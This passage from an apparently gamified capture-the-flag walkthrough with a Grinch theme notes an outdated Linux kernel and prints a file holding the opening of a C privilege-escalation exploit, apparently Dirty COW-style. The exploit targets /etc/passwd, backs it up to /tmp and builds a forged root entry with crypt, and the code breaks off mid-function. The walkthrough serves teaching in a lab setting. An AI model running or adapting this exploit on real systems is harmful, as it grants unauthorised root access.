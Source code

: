 This is a very old version of Linux! This may be vulnerable to some kernel exploits, that we could use to escalate our privileges.

Take a look at the cookies and milk that the server owners left for you. You can do this with the cat command as mentioned earlier.

cat cookies_and_milk.txt

### Who got here first?

> Grinch

```
$ cat cookies_and_milk.txt
/*************************************************
// HAHA! Too bad Santa! I, the Grinch, got here 
// before you did! I helped myself to some of
// the goodies here, but you can still enjoy
// some half eaten cookies and this leftover
// milk! Why dont you try and refill it yourself!
//   - Yours Truly,
//         The Grinch
//*************************************************/

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "grinch";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
```